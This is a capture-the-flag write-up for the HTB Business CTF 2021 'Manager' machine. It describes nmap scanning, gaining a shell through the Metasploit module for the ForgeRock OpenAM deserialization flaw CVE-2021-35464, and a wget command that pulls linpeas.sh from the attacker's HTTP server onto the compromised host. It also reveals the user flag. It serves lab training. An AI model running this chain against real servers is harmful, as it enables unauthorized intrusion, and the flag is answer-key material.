 # HTB Business CTF 2021
## Fullpwn writeup - Manager-user

First of all, after creating instance, let's scan open ports by using nmap:
```
nmap -n -Pn -sV 10.129.173.133
```
![Nmap results](nmap.png)

As we can see, the machine have open port on 8080 (Apache tomcat). 
I will try to check what is that in browser by typing ```http://10.129.173.133:8080```:

![Checking site...](redir.png)

It redirected us to ```http://manager.htb:8080/openam/UI/login``` which is unavailable.
In that case It's good to add in /etc/hosts a static domain to IP mapping and try do it again:

![/etc/hosts changing](etc_hosts.png)

After successful change, let's try again and see what's behind it:

![openam website](openam_webiste.png)

It's a OpenAM login webiste - we don't have any credentials, so first I checked for exploits for it.
By typing ```openam exploit``` I found the fresh one vulnerability, which is Pre-auth RCE in ForgeRock OpenAM (CVE-2021-35464). It's a classic example of Java deserialization - more details you can find [there](https://portswigger.net/research/pre-auth-rce-in-forgerock-openam-cve-2021-35464). On [packet storm](https://packetstormsecurity.com/files/cve/CVE-2021-35464) I found also the raw exploit code and the Metasploit module called ```exploit/multi/http/cve_2021_35464_forgerock_openam```:

![MSF info](msf_openam_info.png)

Let's try to use module in Metasploit. We need to setup proper values to use exploit properly. 

![MSF config](msf_config.png)

After completing exploit configuration I checked if it is for sure vulnerable and execute the exploit:

![MSF vuln](msf_vuln.png)

It opened successfully a session for us, where we can enable interactive shell. 

![MSF vuln](msf_vuln.png)

We have a access to the machine as a ```tomcat``` user. Tomcat user can write a files in a /tmp/ folder which could be a dropzone for us. I will use that fact to drop linpeas script to check vulnerabilities on that machine in purpouse of obtaining a ```root```. To do that I simply start http server in python on Kali and use wget in shell to download a script:

```
python3 -m http.server 8080
wget 10.10.14.55:8080/linpeas.sh -P /tmp/
```
![Dropzone](linpeas_drop.png)

Then I add a execute rights and start a script. 

![Linpeas](linpeas_start.png)

When I checked results my eyes stopped on files inside /opt/tomcat. I saw interesting file called user.txt. 

![MSF vuln](tomcat_folder.png)

In that file we have the first flag for tomcat user - HTB{1n53cur3_d353r14l1z4710n_c4n_b3_v3ry_d4n63r0u5}. 

![Flag tomcat](user_flag.png)

The second one flag for root user  unfortunaley I didn't catch :/.

